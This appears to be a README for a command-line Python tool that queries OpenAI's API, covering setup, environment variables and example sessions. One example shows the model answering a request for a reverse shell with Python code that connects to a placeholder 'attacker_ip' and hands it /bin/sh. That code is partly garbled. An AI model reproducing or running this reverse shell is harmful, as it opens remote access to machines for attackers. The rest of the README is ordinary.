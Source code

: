 # gpt-cli

This is a command line tool used for interacting with OpenAI's API.

Default model is `text-davinci-003` (which ChatGPT was originally built from).

This tool requires the following environment variables to be set:

- `OPENAI_API_KEY`
- `OPENAI_ORGANIZATION_ID`

You can further tweak functionality by setting the following additional environment variables:

- `OPENAI_MODEL`
- `OPENAI_DEFAULT_PROMPT`
- `OPENAI_LOGFILE`
- `OPENAI_TEMPERATURE`
- `OPENAI_MAX_TOKENS`

All environment variables can be set by filling in values from `example.env`, renaming that file to `.env`, and running `./bin/gpt3 'Your prompt here'`.

Alternately, you can pass them all on the command line using something like this:

```
OPENAI_API_KEY=foo OPENAI_ORGANIZATION_ID=bar ./bin/gpt3 'Your prompt here'
```

If installing from PyPi, set the `OPENAI_API_KEY` and `OPENAI_ORGANIZATION_ID` in your `~/.bashrc` or `~/.zshrc`, and run as follows:

```
gpt3 'Your prompt here'
```

## Installation (PyPi) - set variables in rc files:

`python3 -m pip install gpt-cli`

## Installation (local) - set variables in .env:

```
git clone https://github.com/phx/gpt-cli
cd gpt-cli
python3 -m pip install -r requirements.txt
```

### Examples:

```
╭─phx@bigboi ~/git/gpt-cli  ‹master*› 
╰─➤  gpt3 'Write python script to create reverse shell.'
Prompt:
Write python script to create reverse shell.

Answer:
import socket
import subprocess# Create a socket
s = socket.socket()# Connect to the attacker machine
s.connect(("attacker_ip", attacker_port))# Create a subprocess to execute a shell
proc = subprocess.Popen(["/bin/sh", "-i"], stdin=s.fileno(), stdout=s.fileno())# Keep the connection alive
while True:
    data = s.recv(1024)
    if data == "exit":
        break
    proc.stdin.write(data)
    proc.stdout.flush()# Close the connection
s.close()
----------------------------------------------------------------------
```

```
╭─phx@bigboi ~/git/gpt-cli  ‹master*› 
╰─➤  OPENAI_DEFAULT_PROMPT='Do not give nonsense answers. If you do not know that your answer is factual, respond with "Unknown. "' gpt3 'Who is Gregory Washingheimer Van Fleet?'
Prompt:
Who is Gregory Washingheimer Van Fleet?

Answer:
Unknown.
----------------------------------------------------------------------
╭─phx@bigboi ~/git/gpt-cli  ‹master*› 
╰─➤  OPENAI_DEFAULT_PROMPT='Do not give nonsense answers. If you do not know that your answer is factual, respond with "Unknown. "' gpt3 'Who is John Adams?'                     
Prompt:
Who is John Adams?

Answer:
John Adams was the second President of the United States, serving from 1797 to 1801.
----------------------------------------------------------------------
```



